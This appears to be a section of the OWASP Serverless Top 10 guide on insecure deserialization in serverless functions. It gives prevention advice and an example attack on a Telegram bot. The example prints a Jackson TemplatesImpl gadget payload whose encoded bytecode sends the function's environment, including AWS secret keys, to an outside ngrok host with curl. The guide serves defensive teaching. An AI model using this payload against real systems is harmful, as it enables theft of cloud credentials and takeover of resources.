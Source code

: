 # A8:2017 Insecure Deserialization
## Attack Vectors
Dynamic languages like Python and NodeJS, together with the common use of JSON, a serialized data type, could make deserialization attacks a little more common in the serverless world.

## Security Weakness
Together with the possible attack vector, the fact that most functions use 3rd-party libraries to handle the
(de)serialization of the data could introduce such weakness to our serverless application. Deserialization
vulnerabilities are pretty common in Python (e.g. ​[pickle​](http://xhyumiracle.com/python-pickle-injection) ) and JavaScript (​ [node-serialize​](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) ). But could also be found in ​ [.NET and Java​](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf).

## Impact
As usual, the business impact depends on the application and the data it handles. Insecure deserialization usually results in running arbitrary code that could eventually lead to data leakage and, in severe cases, even resource and account control.

## How to Prevent
- Validate serialized objects, originating from any untrusted data (e.g. cloud storage, databases, emails, notifications, APIs) by enforcing strict type constraints before processing it.
- Review 3rd-party libraries for known deserialization vulnerabilities.
- It is also a good practice to monitor deserialization usage and exceptions to identify possible attacks.

## Example Attack Scenario
An application is using a Telegram chat Bot agent to provide information about movies. To do so, a function is triggered when text messages are received (via API GW), taking the input and returning data related to the requested movie using the Open Movie Database (OMDb) API. However, the ​ JsonMapper class i ​ s using JSON
deserialization, by calling jackson.databind.ObjectMapper.readValue() which is ​[known to be vulnerable​](https://nvd.nist.gov/vuln/detail/CVE-2017-17485).
<image>
This allows any unauthenticated telegram user to send malicious content via text and without performing input validation. To exploit it, the attacker needs to send a Java serialized object in the telegram text which will be translated into a JSON as part of the Bot API request.
<image>
By using the following payload, attackers can steal AWS environment data such as AWS_SESSION_TOKEN, AWS_SECRET_ACCESS_KEY, AWS_SECURITY_TOKEN, which could be used to create an AWS ​[AssumeRole​](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role.html) and access AWS resources.
>
    {'id': 124,
     'obj':[ 'com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',
        {
        'transletBytecodes' :
            ['yv66vgAAADQAHgoABgARCgASABMIABQKABIAFQcAFgcAFwEABjxpbml0PgEAAygpVgEABENvZG
            UBAA9MaW5lTnVtYmVyVGFibGUBAARtYWluAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgEACkV
            4Y2VwdGlvbnMHABgBAApTb3VyY2VGaWxlAQAMcGF5bG9hZC5qYXZhDAAHAAgHABkMABoAGw
            EAR2Vudj1gZW52fGJhc2U2NCAtLXdyYXA9MGA7IGN1cmwgaHR0cDovL3Byb3RlZ29sYWJzLm5nc
            m9rLmlvP2RhdGE9JHtlbnZ9DAAcAB0BAAdwYXlsb2FkAQAQamF2YS9sYW5nL09iamVjdAEAE2phd
            mEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxq
            YXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5n
            L1Byb2Nlc3M7ACEABQAGAAAAAAACAAEABwAIAAEACQAAAB0AAQABAAAABSq3AAGxAAAAAQA
            KAAAABgABAAAAAQAJAAsADAACAAkAAAAmAAIAAgAAAAq4AAISA7YABEyxAAAAAQAKAAAACgA
            CAAAABAAJAAUADQAAAAQAAQAOAAEADwAAAAIAEA=='],
        'transletName' : 'a.b',
        'outputProperties' : { }
        }
      ]
    }
When the code runs, it will launch a new process which will send the environment credentials to the attacker. This could eventually lead to invoking the function manually,providing it with any type of input which can end in a complete takeover of cloud resources, depending on the permissions of the function.
<image>
## Serverless Risk Meter
Deserialization attacks are considered hard to find and exploit. In serverless, they are also limited to the time and space of the function, which has a reduced surface. However, importing vulnerable libraries that handle de/serialization of data is very common, and the increased use of JSON types together with dynamic languages like Python and JavaScript could result in code injection, which could eventually lead into resource takeover by the attacker.